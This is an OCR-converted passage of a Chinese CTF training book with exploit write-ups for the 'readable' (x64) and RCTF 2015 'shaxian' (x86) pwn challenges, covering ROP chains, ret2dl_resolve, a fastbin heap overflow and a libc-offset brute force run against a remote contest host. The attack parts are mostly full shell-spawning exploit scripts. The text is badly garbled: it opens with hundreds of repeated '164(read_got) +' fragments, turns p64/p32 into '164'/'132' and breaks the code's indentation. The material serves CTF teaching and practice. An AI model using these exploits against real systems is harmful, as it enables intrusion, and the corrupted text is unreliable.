164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) +

164(0x04) + 164(head_addr) + 164(0x1)
rop += 164(call_func_addr)
length = len(rop)
if length % 16 != 0:
    length += 16 - length % 16
payload = rop.ljust(length, "\x90")
# print length, length / 16
# io.gdb_hint()
for i in range(0, length, 16):
    io.write('0' * 0x10 + 164(buff_addr + 0x10 + i) + 164(main_addr))
    io.write(payload[i:i+16] + 164(bss_addr + 0x10) + 164(main_addr))
io.write('0' * 0x10 + 164(buff_addr - 0x8) + 164(leave_ret))
io.write(chr(dis))
data = io.read(4)
# data = io.read(4)
print [c for c in data]
if data == "\x7fELF":
    print "find it", ":\", hex(dis) raw_input()
def get_syncall_dis():
    dis = 0
    for dis in range(0, 0x100):
        try:
            print dis
            io = get_io(target)
            brute_syncall_addr(io, dis)
            except Exception, e:
            raise
            else:
            pass
            finally:
            pass
def pwn(io, dis):
    bss_addr = 0x600910
    buff_addr = BSS_addr + 0x20
    main_addr = 0x400505
    head_addr = 0x0000000000400000
    p_rdi_ret = 0x0000000000400593
    pp_rsi_r15_ret = 0x0000000000400591
    set_args_addr = 0x40058A
    call_func_addr = 0x400570
    read_got = 0x00000000006008e8

leave_ret = 0x400520
rop = ""
rop += 164(set_args_addr)
#rbx, rbp, r12, r13, r14, r15
rop += 164(0x0) + 164(0x01) + 164(read_got) + 164(0x3b) + 164(read_got - 0x3b + 1) + 164(0x0)
rop += 164(call_func_addr)
rop += 'a' * 8
#rbx, rbp, r12, r13, r14, r15
rop += 164(0x0) + 164(0x01) + 164(read_got) + 164(0x0) + 164(0x0) + 164(bss_addr)
rop += 164(call_func_addr)
length = len(rop)
if length % 16 != 0:
    length += 16 - length % 16
payload = rop.ljust(length, 'x90')
#print length, length / 16
io.gdb_hint()
for i in range(0, length, 16):
    io.write('0' * 0x10 + 164(buff_addr + 0x10 + i) + 164(main_addr))
    io.write(payload[i:i+16] + 164(bss_addr + 0x10) + 164(main_addr))
padding = "/bin/sh".ljust(0x10, 'x00')
io.write(padding + 164(buff_addr - 0x8) + 164(leave_ret))
io.write('0' * (0x3b - 1) + chr(dis))
io.interact()
io = get_io(target)
dis = 0x3e
pwn(io, dis)
```

[OCR存疑：代码中 `164(...)` 疑为 `p64(...)`（pwntools 封包函数）的 OCR 误识别。]

#### 解题方法二

使用dl_resolve进行求解。使用dl_resolve方法来求解的时候，相对来说就较为简单，通过漏洞的多次利用，将需要的伪造信息填入到内存中去，如图11-21所示。

{ width="100%" }


<div style="text-align: center;">图11-21 布局dl_resolve的结构</div>


计算出各自的偏移，然后通过一个rop直接调用plt0进行解析即可，如图11-22所示。

{ width="100%" }


<div style="text-align: center;">图11-22 通过rop触发dl_resolve</div>


对应的exp代码如下：

```python
#---*-- coding:utf8 --*--
from zio import *
target = "./readable"

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    return io

DT_JMPREL = 0x400360 #offset, info
DT_STRTAB = 0x4002e0 #strings array
DT_SYMTAB = 0x400280 #st_name, ...st_info, s_other

DT_VERSYM = 0x40031e

PLT0 = 0x00000000004003d0
#x64
#Elf64_Rel *reloc = JMPREL + index*3*8
#Elf64_Sym *sym = &SYMTAB[{((reloc->r_info)>0x20)]
#i.e. *sym = DT_SYMTAB + (reloc->r_info)*3*8
#assert ((((reloc->r_info)&0xff) == 0x7) type
#=> if (sym->st_other) & 3 == 0) if not resolved
#uint16_t ndx = VERSYM[ (reloc->r_info) >> 0x20]
#r_found_version *version = &l->l_version[ndx]
#name = STRTAB + sym->st_name
#modify ret val <= plt0+6 and the first arg = index and rdi=addr(/bin/sh)
#modify (jmprel + 0x18*index) <= fake_relro
#modify (symtab + 0x18*r_sym) <= fake_sym
#modify (strtab + st_name) <= 'system'
#modify (link map+01c8 == 0) or (versym+index*2 可被访问) #第2点在64位系统中很难满足，第1点需要泄露lin_map的值。
def generate_x64_reloc_data(index, got_plt):
    return 164(got_plt) + 164(0x07 + (index<<0x20)) + 164(0)
def generate_x64_sym_data(name_offset):
    return 132(name_offset) + 132(0x12) + 164(0) + 164(0)
def write_data_to(address, data):
    main_addr = 0x400505
    bss_addr = 0x600910
    length = len(data)
    if length % 16 != 0:
        length += 16 - length % 16
    payload = data.ljust(length, "\x90")
    #io.gdb_hint()
    for i in range(0, length, 16):
        io.write('0' * 0x10 + 164(address + 0x10 + i) + 164(main_addr))
        io.write(payload[i:i+16] + 164(bss_addr + 0x10) + 164(main_addr))
def pwn(io):
    bss_addr = 0x600910
    buff_addr = bss_addr + 0x20
    buff_addr = 0x600910 + 0x30
    buff_addr = 0x600940
    system_got_plt = 0x600930
    #0x600940 = 0x400360 + 0x15594 * 3 * 8

index = 0x15594
#0x600a10 = 0x400280 + 0x155a6 * 3 * 8
reloc_data = generate_x64_reloc_data(0x155a6,
system_got_plt)
#write reloc_data in 0x600940
#0x600a80 = 0x4002e0 + 0x2007a0
sym_data = generate_x64_sym_data(0x2007a0)
#write sym_data in 0x600a10
func_name = "system\x00"
#write system in 0x600a80
main_addr = 0x400505
pop_rbp_ret = 0x0000000000400455
p_rdi_ret = 0x0000000000400593
pp_rsi_r15_ret = 0x0000000000400591
leave_ret = 0x400520
#modify versym dynamic addr 0x40031e - index * 2 = 0x3d57d6
write_data_to(0x600858, 164(0x6fffff0)+164(0x3d57d6))
write_data_to(0x600940, reloc_data)
write_data_to(0x600a10, sym_data)
#io.gdb_hint()
write_data_to(0x600a80, func_name)
write_data_to(0x600aa0, "/bin/sh;\\x00")
rop = ""
rop += 164(p_rdi_ret) + 164(0x600aa0) #/bin/sh
rop += 164(PLT0)
rop += 164(index)
write_data_to(0x6009b0, rop)
io.gdb_hint()
io.write('0'*0x10 + 164(0x6009b0 - 0x08) + 164(leave_ret))
io.interact()
io = get_io(target)
pwn(io)
```

[OCR存疑：代码中 `164(...)`/`132(...)` 疑为 `p64(...)`/`p32(...)`（pwntools 封包函数）的 OCR 误识别。]

### 3. 逻辑较为复杂的情况，x86（2015-rctf-PWN400之shaxian）

该题的逻辑较为复杂，是个菜单式的命令模式。漏洞位置在进入diancai这个命令菜单时，申请了40字节的空间，但是对其中一部分结构读取的时候却可以读取60字节，从而覆盖了后面的堆块，造成堆溢出，如图11-23所示。

```c
head_ptr_804B1C0 = (gou_wu_che_struct *)malloc(40u);
if (head_ptr_804B1C0)
{
    head_ptr_804B1C0->next = t_head_ptr;
    get_buff_804865D(0, head_ptr_804B1C0->type_buff, 60, 10);
    puts("How many?");
    tmp_ptr = head_ptr_804B1C0;
    tmp_ptr->count = get_int_80486CD();
    puts("Add to GOUWUCHE");
    result = total_count_804B2E0++ + 1;
}
else
{
    result = puts("Error");
}
```

<div style="text-align: center;">图11-23 PWN400的反编译代码</div>


其中，购物车的结构体信息如图11-24所示。

```nasm
gou_wu_che_struct struc ; (sizeof=0x28, align=0x4)
count dd ?
type_buff db 32 dup(?)
next dd ?
gou_wu_che_struct ends
```

<div style="text-align: center;">图11-24 结构体信息</div>


由于程序是堆溢出，而且大小是 $ 40+8 $（presize+size）=48字节，因此可以利用fastbin的结构进行堆块的利用。泄露信息的部分较为简单，因为结构体中自带了next指针，这个地方是可以覆盖的，所以直接覆盖后，在打印信息的时候就可以直接泄露相关的got表信息。打印部分（泄露信息）如图11-25所示。

{ width="100%" }


<div style="text-align: center;">图11-25 泄露信息的漏洞点</div>


地址写的逻辑主要是通过fastbin来修改head指针，在head_ptr_804B1C0处伪造一个假的堆块fake_chunk，修改next指针指向该fake_chunk，然后通过free成功释放掉该fake_chunk。再次申请时，该fake_chunk将被分配，并且刚好能实现4字节任意地址写任意数据（将atoi_got改写为system）。因为这里将atoi修改成system，所以下次输入编号的时候，直接输入“/bin/sh”即可，如图11-26所示。

{ width="100%" }


<div style="text-align: center;">图11-26 任意写的漏洞点</div>

然而本题的考点主要在于，libc是主办方自己编译的，网上无法查到，所以其偏移带有特殊性。这里必须通过某种方法对其进行泄露，由于这里是堆中，修改的信息十分有限，不像栈那样简单，因此该题同样采用两种方法来求解，具体如下。

1）对两个libc库中的函数进行爆破（当时打比赛的时候采用的方法）。

根据以前的经验，system地址与aoti相距并不远（aoti在前，system在后），而且这些库函数的地址大都比较规整，为0x10的整数倍，于是想出暴力破解的思路，为了防止卡死，直接发送cat/home/ctf/flag下面的文件，根据读取的返回值，决定偏移是否成功。

[OCR存疑：正文中 `aoti` 疑为 `atoi`。]

虽然偏移不会很大，但是为了节省时间，这里分了几个区段进行暴力破解，如从0x0、0x5000、0xa000、0xc00开头的距离开始破解，代码如下：

```python
import struct
from zio import *

#target = ('119.254.101.197',10000)
#target = './shaxian'

target = ('180.76.178.48', 23333)

def input_info(io):
    io.read_until('Address:')
    io.writeline(132(0)+132(0x31))

io.read_until('number:')
io.writeline('a'*244+132(0x31))

def dian_cai(io, name, num):
    io.read_until('choose:')
    io.writeline('1')
    io.read_until('Jianjiao')
    io.writeline(name)
    io.read_until('?')
    io.writeline(str(num))

def sublit(io):
    io.read_until('choose:')
    io.writeline('2')

def receipt(io, taitou):
    io.read_until('choose:')
    io.writeline('3')
    io.read_until('Taitou:')
    io.writeline(taitou)

def review(io):
    io.read_until('choose:')
    io.writeline('4')

def link_heap(io):
    io.read_until('choose:')
    io.writeline('4')
    io.read_until('2\n')
    heap_ptr = 132(io.read(4))
    print hex(heap_ptr)
    return heap_ptr

def leak_lib(io):
    io.read_until('choose:')
    io.writeline('4')
    io.read_until('*')
    d = io.readline().strip('\\n')
    return int(d, 10)&0xFFFFfff

def pwn (target, dis):
    io = zio(target, timeout=10000,
                    print_read=COLORED(RAW, 'red'), print_write=COLORED(RAW, 'green'))

#io = zio(target, timeout=10000, print_read=None,
print_write=None)

input_info(io)
dian_cai(io, 'aaa', 1)

read_got = 0x0804b010
atoi_got = 0x0804B038

#puts_got = 0x0804b02c

payload = 'a' * 32 + 132(atoi_got - 4)
dian_cai(io, payload, 2)

atoi_addr = link_heap(io)
#system_addr = 0xf7e39190

#io.gdb_hint()

payload2 = 'a' * 32 + 132(0x0804B1C0 - 8)
dian_cai(io, payload2, 3)

sublit(io)
payload = 'a' * 4 + 132(atoi_got)

offset_read = 0x000da8d0
offset_system = 0x0003e800
offset_puts = 0x000656a0
offset_atoi = 0x0002fbb0
print "dis.", hex(dis), "com.", hex(offset_system - offset_atoi))
#libc_base = atoi_addr - offset_atoi
#system_addr = libc_base + offset_system
#system_addr = libc_base + offset_puts
system_addr = atoi_addr + dis
system_addr = struct.unpack("i", 132(system_addr)) [0]
sublit(io)
dian_cai(io, payload, system_addr)
#io.writeline('/bin/cat /home/shaxian/flag')
io.writeline('/bin/sh\n')
io.interact()
#data = io.read(1024)
data = io.read_until_timeout(1)
if "RCTF" in data or "No such file" in data:
    print "herre"

file_w = open("flag-4002", 'w')
data += "dis:" + hex(dis) + "com:" +
hex(offset_system - offset_atoi)
    file_w.write(data)
    file_w.close()
    exit(0)
else:
    io.close()
#print "ok:"
#io.interact()

dis = 0x100
dis = 0xe130
while dis < 0xFFFFf:
    try:
        print hex(dis)
        pwn(target, dis)
    except Exception, e:
        pass
    else:
        pass
    finally:
        dis += 0x10
```

[OCR存疑：代码中 `132(...)` 疑为 `p32(...)`（pwntools 封包函数）的 OCR 误识别。]

2）使用dl_resolve求解，主办方考虑的知识点（赛后重新使用该方法做了一遍）。

使用dl_resolve求解的主要步骤是先布置内存，由于这里有address、phone_number和taitou信息，因此调用plt0的时候，可以使用一个技巧——栈转移。plt0的三个参数必须是index、返回地址、函数参数，我们发现将atoi修改为栈转移gadget地址后，在调用atoi函数时，距离栈顶44字节处的信息就是栈信息了，因此只要找到一个抬高栈的gadget即可，如图11-27所示。

```c
v4 = *MK_FP(_GS_, 20);
v0 = 0;
do
{
    *(_DWORD *)&nptr[v0] = 0;
    v0 += 4;
}
while (v0 < 32);
if (get_buff_804865D(0, nptr, 32, 10) >= 0)
    result = atoi(nptr);
else
    result = -1;
v2 = *MK_FP(_GS_, 20)^v4;
```

<div style="text-align: center;">图11-27 栈转移的关键点</div>


找到的gadget如图11-28所示。

```nasm
#0x08048c29 : add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
p_11_ebp_ret = 0x08048c29
leave_ret = 0x080485c8
```

<div style="text-align: center;">图11-28 抬高栈的gadget</div>


整个exp的代码如下：

```python
#--*-- coding:utf8 --*--
import struct

from zio import *
target = "./shaxian"
def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    return io

def dian_cai(io, name, count):
    io.read_until("choose:\n")
    io.writeline("1")
    io.read_until("5.Jianjiao\n")

io.writeline(name)
io.read_until("How many?\n")
io.writeline(str(count))

def submit(io):
    io.read_until("choose:\n")
    io.writeline("2")

def receipt(io, taitou):
    io.read_until("choose:\n")
    io.writeline("3")
    io.read_until("Taitou:\n")
    io.writeline(taitou)

def review(io):
    io.read_until("choose:\n")
    io.writeline("4")

#x86
#Elf32_Rel *reloc = JMPREL + index
#Elf32_Sym *sym = &SYMTAB[((reloc->r_info)>8)]
#i.e. *sym = DT_SYMTAB + (reloc->r_info)*4*4
#assert ((reloc->r_info)&0xff) == 0x7) type
#if (sym->st_other) & 3 == 0) if not resolved
#uint16_t ndx = VERSYM[(reloc->r_info) >> 8] ndx=0-> local symbol
#r_found_version *version = &l->l_version[ndx]
#name = STRTAB + sym->st_name
def generate_x86_reloc_data(index, got_plt):
    return 132(got_plt) + 132(0x07 + (index<<8))
def generate_x86_sym_data(name_offset):
    return 132(name_offset) + 132(0) + 132(0x12)
#readelf -d ./shaxian
DT_JMPREL = 0x8048408 #0x80482f8 #offset, info
DT_STRTAB = 0x80482ec #0x8048260 #strings array
DT_SYMTAB = 0x80481dc #0x80481e0 #st_name, ...st_info, s_other
DT_VERSYM = 0x8048396 #0x80482c0
PLT0 = 0x08048490 #0x08048350
#x86
atoi_got = 0x0804b038
system_got = atoi_got
#useful_addr = phone_number_804B0C0
#useful_addr = taitou_804B300
#useful_addr = address_804B1E0

useful_addr = 0x804B1E0
#reloc_index
#0x804B1E0 = 0x8048408 + 0x2dd8
reloc_index = 0x2dd8
#set jmpre1 + index where index is reloc_index
#0x080499c0 = 0x80481e0 + 0x17e * 16
#0x804b1ec = 0x80481dc + 0x301 * 16
reloc_data_addr = 0x804B1E0
reloc_data = generate_x86_reloc_data(0x301, system_got)
#write reloc_data in 0x804B1E0

#0x080499e0 = 0x8048260 + 0x1780
#0x804b1fc = 0x80482ec + 0x2f10
sym_data_addr = 0x804b1ec
sym_data = generate_x86_sym_data(0x2f10)
#write sym_data in 0x804b1ec
func_name_addr = 0x804b1fc
func_name = "system\x00"
#write system in 0x804b1fc
bin_str_addr = 0x804b1fc + 0x08
bin_str = "/bin/sh;\\x00"
#write bin_str in bin_str_addr
def pwn(io):
    address = reloc_data.ljust(sym_data_addr - reloc_data_addr, '\\x00')
    address += sym_data.ljust(func_name_addr - sym_data_addr, '\\x00')
        #address += func_name
        address += func_name.ljust(bin_str_addr - func_name_addr, '\\x00')
        address += bin_str
        address = address.ljust(0x80 + 4, 'a')
        address += 132(PLT0) + 132(reloc_index) + 132(0x01010101) + 132(bin_str_addr)
        #address = "a" * 8
        phone_number = 'a' * (256 - 0x8 - 0x4) + 132(0) + 132(0x31)[:2]
        io.read_until("Your Address:\\n")
        io.writeline(address)
        io.read_until("Your Phone number:\\n")
        io.writeline(phone_number)
        name = 'a' * 8
        count = 32
        dian_cai(io, 'a' * 20, count) #0x8f81008

dian_cai(io, 'b' * 20, count) #0x8f81038
dian_cai(io, 'c' * 20, count) #0x8f81068
submit(io)
malloc_got = 0x0804b028
head_ptr_addr = 0x804B1C0
atoi_got = 0x0804b038
name = 'd' * 32 + 132(malloc_got - 4) + 132(0) + 132(0x31) + 132(head_ptr_addr - 0x8 - 0x4)
dian_cai(io, name, 32)
dian_cai(io, name, 32)
review(io)
io.read_until("Cart:\n")
io.read_until("\\n")
malloc_addr = io.read(4)
malloc_addr = 132(malloc_addr)
print hex(malloc_addr)
name = 132(atoi_got)
offset_malloc = 0x00076550
offset_system = 0x0003e800
#0x08048c29 : add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
p_11_ebp_ret = 0x08048c29
leave_ret = 0x080485c8
#libc_base =malloc_addr - offset_malloc
#system_addr =libc_base + offset_system
#count = system_addr>>1
#count = struct.unpack("i", 132(system_addr))[0]
count = struct.unpack("i", 132(p_11_ebp_ret))[0]
io.gdb_hint()
dian_cai(io, name, count)
io.read_until("choose:\n")
payload = 'a' * 8 + 132(useful_addr + 0x80) + 132(leave_ret)
io.writeline(payload)
#io.read_until("choose:\n")
#io.writeline("/bin/sh")
io.interact()
io = get_io(target)
pwn(io)
```

[OCR存疑：代码中 `132(...)` 疑为 `p32(...)`（pwntools 封包函数）的 OCR 误识别。]

???+ tip "本节要点"
    1. dl_resolve 用于找不到 libc.so 文件、无法计算 libc 基址的场景；
    2. PWN200：read 多读 1 字节溢出覆盖 nbytes，进而栈溢出；有 libc 时泄露 read 地址算 system 地址改 got；
    3. readable（x64）：16 字节 buf 读 32 字节，覆盖 rbp/rip 多次利用；方法一爆破 system_call 偏移改 read 最低字节，方法二 dl_resolve；
    4. shaxian（x86）：diancai 菜单申请 40 字节读 60 字节堆溢出，利用 fastbin 任意写改 atoi 为 system；方法一爆破 aoti 与 system 偏移，方法二 dl_resolve + 栈转移。
## 易错点

!!! warning "易错点"
    1. ==代码中的 `132(`/`164(` 是 `p32(`/`p64(` 的 OCR 误识别==，阅读或复现 exp 时应改回 pwntools 的封包函数，否则脚本无法运行。
    2. Return-to-dl resolve 依赖三个条件（未给 libc、未开 PIE、未开 FULL RELRO），任意一条不满足（如已开 FULL RELRO）就用不了，需改用泄露基址等其他方法。
    3. 64 位系统下 dl_resolve 读取 vernum（versym+2*r_sym）常是无效地址导致段错误，必须绕过（改 link_map+0x1c8 为 0 或改 versym 值）。
    4. NX、ASLR、PIE 是三个不同维度的保护：NX 禁栈执行、ASLR 随机化地址、PIE 随机化代码段，易混淆；RELRO 只管 got 表可写性。
## 自测题

??? note "自测题"
    **基础**
    1. PWN 的逆向辅助类与漏洞利用类工具各举两个例子？peda 原版有什么局限？
    2. NX 位 0 和 1 分别代表什么？开启/关闭栈可执行分别用哪个 gcc 编译选项？
    3. ASLR 的三个取值（0/1/2）分别随机化哪些区域？
    4. PIE 与 RELRO 分别保护什么？partial relro 与 full relro 的区别是什么？
    5. 程序中内存的四个重要数据部分（从低地址到高地址）分别是什么？
    6. shellcode 一般针对什么场景使用？NX 开启时如何绕过？

    **进阶**
    7. ROP 的原理是什么？为什么 NX 开启时还能利用？ret2libc 是什么？
    8. Return-to-dl resolve 的核心思想是什么？适用条件是哪三条？
    9. PWN200 的漏洞是如何触发的？（简述 read 多读 1 字节的利用链）
    10. readable（x64）只有任意地址写、没有读权限，为什么常规方法难，方法一是如何解决泄露问题的？

    **参考答案**
    1. 逆向辅助类：IDA Pro、gdb（+peda）；漏洞利用类：pwntools、zio。peda 原版不支持 Python3，用 zachriggle/peda 可兼容。
    2. NX 位 0 允许执行代码、1 禁止执行代码；开启栈可执行加 `-z execstack`，栈保护默认开启，关闭用 `-fno-stack-protector`（关的是 canary）。
    3. 0 关闭 ASLR；1 随机化 mmap base、stack、vdso page；2 在 1 基础上再随机化 heap。
    4. PIE 随机化代码段；RELRO 控制重定位信息（got 表）是否可写，partial 可写、full 不可写。
    5. 程序数据（Proc）、堆（Heap）、库数据（Memory Mapping）、栈（Stack）。
    6. shellcode 用于数据区（栈/堆）未开 NX 时直接布置并跳转执行；NX 开启时用 rop 调 mprotect 关 NX 或将代码段改为可写后再执行。
    7. ROP 用 ret 结尾的 gadget 片段衔接控制流，绕过 NX（因不直接在栈上执行代码而是复用现有指令）；ret2libc 是直接利用 libc 现成函数构造 rop。
    8. 用 _dl_runtime_resolve 解析出 system 地址；条件：未给 libc、未开 PIE（否则需泄露基址）、未开 FULL RELRO。
    9. buf 仅 16 字节但 read 读了 nbytes+1=17 字节，最后一字节覆盖 nbytes；覆盖成 0xff 后读 stack_buff 最多 255 字节而真实仅 128，从而覆盖 ebp/eip。
    10. 无读权限无法直接泄露 libc；方法一爆破 system_call 相对 read 的偏移，改 read 的 got 最低位为其他系统调用号（如 write）打印测试，命中则继续改 eax 为 0x3b 调 execve。
## 本章思维导图



## 参考资料

- 原书：CTF特训营（FlappyPig战队 著，机械工业出版社 2020）。
- peda：https://github.com/longld/peda
- peda（Python3 兼容）：https://github.com/zachriggle/peda
- pwntools：https://github.com/Gallopsled/pwntools
- zio：https://github.com/zTrix/zio
- ROPgadget：https://github.com/JonathanSalwan/ROPgadget
- shell-storm shellcode 库：http://shell-storm.org/shellcode/

*来源：CTF特训营（FlappyPig战队 著，机械工业出版社 2020），OCR 全内容保留整理版。*
